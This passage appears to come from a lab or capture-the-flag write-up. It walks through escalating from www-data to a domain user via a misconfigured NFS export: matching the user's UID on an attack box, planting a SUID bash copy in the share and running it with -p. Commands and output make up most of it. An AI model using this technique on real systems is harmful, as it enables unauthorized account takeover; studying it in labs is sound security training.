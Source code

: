 Now, let's enumerate and elevate our privileges. We find `peter.turner` user.
```
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

We have write permissions, thus we can try [elevating our privileges](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/)
```
╔══════════╣ Analyzing NFS Exports Files (limit 70)
Connected NFS Mounts:                                                                                                                                                                                                                       
nfsd /proc/fs/nfsd nfsd rw,relatime 0 0
-rw-r--r-- 1 root root 427 Jun 18  2023 /etc/exports
/opt/share *(rw,no_subtree_check)  
```

Change `/etc/login.defs`
```
<SNIP>
UID_MIN                  1000
UID_MAX                 902601109
<SNIP>
GID_MIN                  1000
GID_MAX                 902601109
<SNIP>

```

Now we copy `bash` to share
```
www-data@mail01:~/roundcube$ cp /bin/bash /opt/share/bash
www-data@mail01:~/roundcube$ 
```
On our attack box we create a new user with `uid` identical to `peter.turner`
```
└─$ id nfs_user                                                                                 
uid=902601108(nfs_user) gid=902601108(nfs_user) groups=902601108(nfs_user)
```
Try the following approach to add sticky bit
```
└─$ sudo su nfs_user
nfs_user@kali:/tmp$ cp /mnt/export/bash ./
nfs_user@kali:/tmp$ rm /mnt/export/bash
rm: remove write-protected regular file '/mnt/export/bash'? y
nfs_user@kali:/tmp$ chmod +s ./bash
nfs_user@kali:/tmp$ cp ./bash /mnt/export/
```
In case it doesn't work, try just adding SUID directly to `bash` in share
```
nfs_user@kali:/tmp$ chmod +s /mnt/export/bash
```
As a result we have access as `peter.turner`
```
www-data@mail01:~/roundcube$ ls -lha /opt/share/
total 1.4M
drwxrwxrwx 2 nobody                 nogroup   4.0K Dec 16 17:42 .
drwxr-xr-x 4 root                   root      4.0K Jun 17  2023 ..
-rw-r--r-- 1 root                   root      5.9K Jun 18  2023 backup.tar.gz
-rwsr-sr-x 1 peter.turner@hybrid.vl 902601108 1.4M Dec 16 17:42 bash
```
```
www-data@mail01:~/roundcube$ /opt/share/bash -p
bash-5.1$ id
uid=33(www-data) gid=33(www-data) euid=902601108(peter.turner@hybrid.vl) egid=902601108 groups=902601108,33(www-data)
```